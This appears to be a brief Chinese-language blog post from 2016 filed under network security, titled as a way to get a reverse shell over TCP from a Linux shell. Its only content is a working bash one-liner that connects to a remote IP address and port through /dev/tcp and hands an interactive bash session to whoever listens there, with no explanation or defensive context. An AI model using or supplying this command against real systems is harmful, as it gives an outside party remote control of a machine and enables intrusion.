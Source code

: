 title: linux shell下命令反弹shell，tcp连接
categories: [网络安全,Linux]
tags: []
date: 2016-08-24 21:45:01
---
<pre>
exec 9<> /dev/tcp/1.1.1.1/20239;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i
</pre>